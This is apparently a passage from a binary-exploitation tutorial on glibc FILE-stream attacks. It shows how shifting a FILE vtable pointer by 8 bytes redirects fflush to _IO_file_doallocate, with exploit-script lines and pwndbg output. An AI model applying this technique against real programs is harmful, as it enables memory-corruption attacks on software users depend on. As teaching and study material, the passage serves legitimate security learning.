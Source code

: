 ```c
_IO_setb (fp, p, p + size, 1);
```

If we observe the *_IO_setb*function, we will notice that the *_IO_buf_base* and *_IO_buf_end* members of the file stream will be set, so this can help us to propagate the FileSteram.
```c
void
_IO_setb (FILE *f, char *b, char *eb, int a)
{
  if (f->_IO_buf_base && !(f->_flags & _IO_USER_BUF))
    free (f->_IO_buf_base);
  f->_IO_buf_base = b;
  f->_IO_buf_end = eb;
  if (a)
    f->_flags &= ~_IO_USER_BUF;
  else
    f->_flags |= _IO_USER_BUF;
}
```

The above looks promising, but how can we call  *_IO_file_doallocate*? The answer is by changing the pointer on *_IO_SYNC_* to point to *_IO_file_doallocate* This is possible because we know that *_IO_SYNC_* will be called from the *__sync* vtable pointer when the *result* assigned in a value in *fflush*. We can achieve that by changing the last byte of the vtable ptr to 8 bytes more, in the case of this Glibc version 0xa8, as shown below.

```python
trick(_vtable, 0xa8) #changing the v table pointer
flush()
```
Adding 0x8 or changing the last byte of the pointer from 0xa0 to 0xa8, as the binary allows us, will "shift" the vtable by 8, and instead of *_IO_SYNC_*, *_IO_file_doallocate* will be executed when *fflush* executes. To illustrate this, let's keep the breakpoint on *fflush* and execute the binary again with the code above added to the script, and let's inspect the vtable area.


```
pwndbg> p ((struct _IO_FILE_plus *)0x55555555a2a0).vtable
$1 = (const struct _IO_jump_t *) 0x7ffff7feb4a8 <_IO_file_jumps+8>
pwndbg> p *((struct _IO_FILE_plus *)0x55555555a2a0).vtable
$2 = {
  __dummy = 0,
  __dummy2 = 140737352638288,
  __finish = 0x7ffff7e92d80 <_IO_new_file_overflow>,
  __overflow = 0x7ffff7e92a20 <_IO_new_file_underflow>,
  __underflow = 0x7ffff7e93f50 <__GI__IO_default_uflow>,
  __uflow = 0x7ffff7e95680 <__GI__IO_default_pbackfail>,
  __pbackfail = 0x7ffff7e915d0 <_IO_new_file_xsputn>,
  __xsputn = 0x7ffff7e91240 <__GI__IO_file_xsgetn>,
│  __xsgetn = 0x7ffff7e90860 <_IO_new_file_seekoff>,
  __seekoff = 0x7ffff7e94600 <_IO_default_seekpos>,
  __seekpos = 0x7ffff7e90530 <_IO_new_file_setbuf>,
  __setbuf = 0x7ffff7e903c0 <_IO_new_file_sync>,
  __sync = 0x7ffff7e83c70 <__GI__IO_file_doallocate>, <- aca resaltar o foto?
  __doallocate = 0x7ffff7e915a0 <__GI__IO_file_read>,
  __read = 0x7ffff7e90e60 <_IO_new_file_write>,
  __write = 0x7ffff7e90600 <__GI__IO_file_seek>,
  __seek = 0x7ffff7e90520 <__GI__IO_file_close>,
  __close = 0x7ffff7e90e40 <__GI__IO_file_stat>,
  __stat = 0x7ffff7e95810 <_IO_default_showmanyc>,
  __showmanyc = 0x7ffff7e95820 <_IO_default_imbue>,
  __imbue = 0x0
}
```
![](2022-11-24-22-38-16.png)
